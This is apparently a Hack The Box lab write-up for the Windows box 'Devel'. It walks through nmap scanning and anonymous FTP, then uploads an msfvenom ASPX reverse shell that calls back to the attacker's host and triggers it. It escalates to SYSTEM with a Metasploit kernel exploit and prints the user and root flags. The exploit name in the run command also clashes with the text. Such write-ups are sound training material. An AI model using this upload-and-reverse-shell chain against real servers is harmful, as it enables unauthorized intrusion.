

+++
title = "Devel"
date = "2024-02-24"
description = "This is an easy Windows box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Windows

**Release date**: 2017-03-15

**Created by**: [ch4p](https://app.hackthebox.com/users/1)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.5`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.10.5`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Devel using a TCP SYN `nmap`
scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.10.5" -p-
```

```
<SNIP>
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.10.5" --top-ports "500"
```

```
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.10.5" -p "21,80" -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
<SNIP>
```

Alright, so `nmap` managed to determine that Devel is running Windows.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.10.5" -p "21,80" -sC
```

```
<SNIP>
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
<SNIP>
```

The `ftp-anon` script reveals that the FTP server accepts anonymous connections.
It also found a bunch of files probably associated with the IIS server.

## Services enumeration

### FTP

#### Exploring the filesystem

Thanks to `nmap`, we know that we can log in anonymously.

```sh
❯ ftp "10.10.10.5"
```

```
<SNIP>
Name (10.10.10.5:root): ftp
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
<SNIP>
ftp>
```

As indicated by `nmap`, the FTP server contains many files and folders related
to the IIS website.

However, none of the files we have access to are interesting. The
`aspnet_client` folder contains a `system_web` file, but we can't download it.

### IIS

#### Exploration

Let's browse to `http://10.10.10.5/`.


It's a standard installation page for IIS 7.

#### Fingerprinting

Let's fingerprint the technologies used by this website with the
[Wappalyzer](https://www.wappalyzer.com/) extension.



This reveals that this website is using ASP.NET.

#### Exploration

In fact, the homepage corresponds to the `iisstart.htm` file we found on the FTP
server. The image is also `welcome.png`. Therefore, we can assume that the FTP
server holds the source code of the website!

## Foothold (File upload)

Since we have access to the FTP server, and that it contains the source code of
the website, we can upload arbitrary files to the web server filesystem.

Luckily, we know that the website is using ASP.NET... so it might be a great way
to obtain a foothold!

### Preparation

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll use `msfvenom` to generate a `windows/shell_reverse_tcp`
payload.

```sh
❯ msfvenom -p "windows/shell_reverse_tcp" LHOST="10.10.14.5" LPORT="9001" -f "aspx" -o "/workspace/revshell.aspx"
```

### Exploitation

I'll connect to the FTP server once again.

```sh
❯ ftp "10.10.10.5"
```

Then, I'll upload the `revshell.aspx` file:

```sh
ftp> put "/workspace/revshell.aspx" "/revshell.aspx"
```

```
<SNIP>
226 Transfer complete.
<SNIP>
```

Finally, let's trigger our `revshell.aspx` file!

```sh
❯ curl -s -o "/dev/null" "http://10.10.10.5/revshell.aspx"
```

And if we check our listener:

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.5] 49159
<SNIP>
c:\windows\system32\inetsrv>
```

It caught the reverse shell!

I'll transform it into a Powershell one.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `iis apppool\web`.

### Architecture

What is Devel's architecture?

```ps1
PS C:\windows\system32\inetsrv> Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" | Select-Object -ExpandProperty "PROCESSOR_ARCHITECTURE"
```

```
x86
```

It's using x86. Let's keep that in mind to select the appropriate binaries.

### Version

Let's gather some information about the Windows version of Devel.

```ps1
PS C:\windows\system32\inetsrv> Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion" | Format-List -Property "ProductName", "CurrentBuildNumber"
```

```
ProductName        : Windows 7 Enterprise
CurrentBuildNumber : 7600
```

In fact, it's Windows 7 build `7600`.

### Hotfixes

Let's retrieve the list of installed hotfixes.

```ps1
PS C:\windows\system32\inetsrv> Get-HotFix | Select-Object -ExpandProperty "HotFixID"
```

Nothing.

### Users

Let's enumerate all users using `PowerView`.

```ps1
PS C:\windows\system32\inetsrv> Get-NetLocalGroupMember -GroupName "Users" | Where-Object { $_.MemberName -notmatch "NT AUTHORITY" } | Select-Object "MemberName", "SID" | Format-Table -AutoSize
```

```
MemberName  SID
----------  ---
DEVEL\babis S-1-5-21-317305410-3807702595-335209132-1000
```

There's only `babis`.

What about the administrators?

```ps1
PS C:\windows\system32\inetsrv> Get-NetLocalGroupMember -GroupName "Administrators" | Where-Object { $_.MemberName -notmatch "NT AUTHORITY" } | Select-Object "MemberName", "SID" | Format-Table -AutoSize
```

```
MemberName          SID
----------          ---
DEVEL\Administrator S-1-5-21-317305410-3807702595-335209132-500
```

We only find the built-in `Administrator`.

### Groups

Let's enumerate all groups, once again using `PowerView`.

```ps1
PS C:\windows\system32\inetsrv> Get-NetLocalGroup | Select-Object "GroupName", "Comment" | Format-Table -AutoSize
```

```
GroupName                       Comment
---------                       -------
Administrators                  Administrators have complete and unrestricted access to the computer/domain
Backup Operators                Backup Operators can override security restrictions for the sole purpose of backing up or restoring files
Cryptographic Operators         Members are authorized to perform cryptographic operations.
Distributed COM Users           Members are allowed to launch, activate and use Distributed COM objects on this machine.
Event Log Readers               Members of this group can read event logs from local machine
Guests                          Guests have the same access as members of the Users group by default, except for the Guest account which is further restricted
IIS_IUSRS                       Built-in group used by Internet Information Services.
Network Configuration Operators Members in this group can have some administrative privileges to manage configuration of networking features
Performance Log Users           Members of this group may schedule logging of performance counters, enable trace providers, and collect event traces both locally and via remote access to this computer
Performance Monitor Users       Members of this group can access performance counter data locally and remotely
Power Users                     Power Users are included for backwards compatibility and possess limited administrative powers
Remote Desktop Users            Members in this group are granted the right to logon remotely
Replicator                      Supports file replication in a domain          
Users                           Users are prevented from making accidental or intentional system-wide changes and can run most applications
```

### NICs

Let's gather the list of connected NICs.

```ps1
PS C:\windows\system32\inetsrv> ipconfig /all
```

```
Windows IP Configuration

   Host Name . . . . . . . . . . . . : devel
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection 4:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-F1-AF
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::b1e0:c8ad:9215:4a46(Preferred) 
   Temporary IPv6 Address. . . . . . : dead:beef::c909:7cd5:ccf7:d5b(Preferred) 
   Link-local IPv6 Address . . . . . : fe80::b1e0:c8ad:9215:4a46%15(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.10.10.5(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:1014%15
                                       10.10.10.2
   DNS Servers . . . . . . . . . . . : 8.8.8.8
                                       1.1.1.1
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.{0B2931D6-69F8-4A00-8E64-237C531D469C}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```

There's an Ethernet interface and an ISATAP interface.

## System enumeration

### Known vulnerabilities

Let's run `Sherlock` to check for known vulnerabilities that might affect Devel.
It's likely is vulnerable to many exploits, since we found no aplied hotfixes.

```ps1
PS C:\windows\system32\inetsrv> Find-AllVulns
```

```
Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Appears Vulnerable

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not Vulnerable

Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not Vulnerable

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Not Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not Vulnerable

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Not Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Not Vulnerable

Title      : Nessus Agent 6.6.2 - 6.10.3
MSBulletin : N/A
CVEID      : 2017-7199
Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.h
             tml
VulnStatus : Not Vulnerable
```

We find many candidates:
[MS10-015](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2010/ms10-015),
[MS10-092](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2010/ms10-092),
[MS15-051](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2015/ms15-051)
and
[MS16-032](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032).

## Privilege escalation ([MS10-015](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2010/ms10-015))

[MS10-015](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2010/ms10-015)
is a Windows vulnerability affecting various x86 versions of Windows, including
Windows 2000, Windows XP, Windows Server 2003, Windows Vista, Windows Server
2008, Windows 7, and Windows Server 2008 R2. The vulnerability lies in the way
Windows handles certain types of Windows Kernel-Mode drivers. Specifically, it's
related to the Canonical Display Driver (`cdd.dll`), a component responsible for
managing graphical user interface elements such as windows, icons, and menus.
When access to 16-bit applications is enabled on a 32-bit x86 platform, the
system does not properly validate certain BIOS calls, which allows an attacker
to gain privileges by crafting a `VDM_TIB` data structure in the Thread
Environment Block (TEB), and then calling the `NtVdmControl` function to start
the Windows Virtual DOS Machine (aka NTVDM) subsystem. This leads to improperly
handled exceptions involving the #GP trap handler `nt!KiTrap0D`, and the kernel
stack is set to a user-controllable address. This allows an attacker to execute
code as `NT AUTHORITY\SYSTEM`.

### Checks

This exploit requires the system to run x86. We know from the
[Architecture](#architecture) section that Devel is using x86, so it should be
vulnerable to it.

### Preparation

I'll use the Metasploit module `exploit/windows/local/ms10_015_kitrap0d` to
exploit this vulnerability, since it's non-trivial to do by hand.

However, this is a privilege escalation module, so it requires a Meterpreter
session to run. Therefore, I'll use my existing reverse shell to get a
Meterpreter session. It got assigned the number `1`.

Then, I'll set the `payload` to `payload/windows/powershell_reverse_tcp`, the
`LHOST` to `10.10.14.5`, the `LPORT` to `9004` and the `SESSION` to `1`.

### Exploitation

No we can launch the exploit!

```sh
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run
```

```
<SNIP>
PS C:\windows\system32\inetsrv>
```

It went off without a hitch.

However, I don't like Metasploit's shell, so I'll open my own on port `9005`.

## System enumeration

If we run `whoami`, we see that we're `NT AUTHORITY\SYSTEM`!

### Flags

If we check `babis`'s Desktop folder, we find the user flag.

```ps1
PS C:\windows\system32\inetsrv> Get-Content "C:\Users\babis\Desktop\user.txt"
```

```
d2a5a4b065337d4b0a9148161ec41ca2
```

And as usual, we can find the root flag in `Administrator`'s Desktop folder.

```ps1
PS C:\windows\system32\inetsrv> Get-Content "C:\Users\Administrator\Desktop\root.txt"
```

```
22db77fa93c56d6f9dc0da67367e86af
```

# Afterwords


That's it for this box! 🎉

I rated both the user and root flags as 'Very easy' to obtain. I found the
foothold really straightforward to obtain once I realized that I had access to
the web server's filesystem. The privilege escalation was also classic and easy
to perform thanks to Metasploit.

Thanks for reading!
